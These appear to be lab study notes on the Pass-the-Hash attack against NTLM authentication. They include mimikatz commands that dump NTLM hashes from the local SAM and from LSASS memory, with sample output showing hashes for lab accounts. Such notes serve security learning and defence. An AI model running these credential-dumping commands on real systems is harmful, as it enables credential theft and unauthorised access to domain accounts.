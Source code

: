 		- Local Account = Doesn't Server doesn't notify the DC for NTLM AUthentication
		- Domain Account = DC is notified by the server for NTLM authentication


### Pass-The-**Hash** - `Attack on NTLM Authentication`

- As a result of extracting credentials from a host where we have ***attained admin privileges*** (by using `mimikatz` or other tools), we might get clear-text passwords or hashes that can be easily cracked.
- However, if we aren't lucky enough, we will end up with ***non-cracked NTLM password*** hashes.

		- Clear-text & cracked hashes passwords == Compromised host with admin privileges
		- Otherwise, non-cracked NTLM password hashes.

- Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash.
- This means we can authenticate without requiring the plaintext password to be known.
- Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can `Pass-The-Hash(PtH)` and authenticate successfully.

		- Condition for Pass-The-Hash attack:
		- The Windows Domain must have NTLM authentication enabled.

- To extract NTLM hashes, we can either use `mimikatz`  to read the `local SAM` or extract hashes directly from `LSASS` memory.

##### Step 1: Extracting NTLM hashes from `local SAM`:

- This method will ***only allow you to get hashes from local users on the machine***.
- No domain user's hashes will be available.

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```


##### Step 2: Extracting NTLM hashes from LSASS memory:

```powershell
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```
